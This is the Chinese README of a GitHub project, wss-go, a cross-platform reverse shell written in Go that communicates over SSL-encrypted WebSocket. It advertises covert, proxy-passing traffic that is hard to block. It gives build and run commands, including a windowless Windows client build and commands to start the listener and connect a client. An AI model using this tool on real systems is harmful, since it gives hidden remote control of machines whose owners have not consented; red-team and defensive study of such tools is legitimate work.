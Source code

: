 # wss-go：使用 Golang 编写的 Websocket with SSL 的反向 Shell

一款使用 Golang 编写的 Websocket with SSL 的反向 Shell。

适用于Windows, Linux, MacOS。

## 文档

- [English](https://github.com/piaolin/wss-go/blob/main/README.md)
- [中文文档](https://github.com/piaolin/wss-go/blob/main/README_ZH.md)

## 原理

使用 Websocket 进行通信，并使用 SSL 证书进行加密。

## 特性

- 握手阶段采用 HTTP 协议，因此握手时不容易屏蔽，能通过各种 HTTP 代理服务器。
- 使用 SSL 证书进行加密。
- 数据格式比较轻量，性能开销小，通信高效隐蔽。

## 使用方法

### Windows

```shell
go env -w GOOS=windows
go build -o wssServer server/server.go
go build -o wssClient -ldflags -H=windowsgui -ldflags "-s -w" client/client.go
```

### 截屏

![](https://i.loli.net/2021/08/29/gHhY4RaGOcDAdnp.png)
![](https://i.loli.net/2021/08/29/YQVOlgW28pmqsto.png)

### MacOS & Linux

```shell
go env -w GOOS=darwin/linux
go build -o wssServer server/server.go
go build -o wssClient client/client.go
./wssServer -addr 0.0.0.0:443
./wssClient -addr 127.0.0.1:443
```

### 截屏

![](https://i.loli.net/2021/08/29/gExYGVKBzpte1Pv.png)

## 代办

- RSA & AES